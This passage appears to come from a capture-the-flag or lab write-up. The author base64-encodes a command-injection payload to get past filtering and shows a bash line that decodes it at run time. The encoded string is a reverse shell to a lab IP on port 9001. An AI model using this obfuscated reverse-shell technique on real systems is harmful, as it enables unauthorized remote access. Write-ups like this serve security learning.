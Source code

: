 <figure><img src="../../.gitbook/assets/Untitled 23 (9).png" alt=""><figcaption></figcaption></figure>

But this time also I haven’t got back the response.

So this time I encoded the command which is in the payload using `base64` algorithm.

<figure><img src="../../.gitbook/assets/Untitled 24 (10).png" alt=""><figcaption></figcaption></figure>

But if you send this base64 string as it is in the payload it won’t work, because the base64 string is not a valid command in linux. So we have to find a way to decode this while execution. So I constructed a bash command to decode this.

Command:

`echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45MC85MDAxIDA+JjE= | base64 -d`

<figure><img src="../../.gitbook/assets/Untitled 25 (9).png" alt=""><figcaption></figcaption></figure>
